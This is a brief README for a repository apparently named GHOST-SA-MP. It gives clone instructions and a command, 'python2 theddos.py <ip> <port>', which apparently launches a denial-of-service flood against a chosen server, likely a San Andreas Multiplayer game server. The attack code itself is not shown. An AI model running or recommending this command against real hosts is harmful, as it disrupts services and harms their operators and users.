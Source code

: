 # GHOST-SA-MP

### How to use?
```
git clone https://github.com/TheJay06/GHOST-SA-MP
cd GHOST-SA-MP
python2 theddos.py <ip> <port>
```
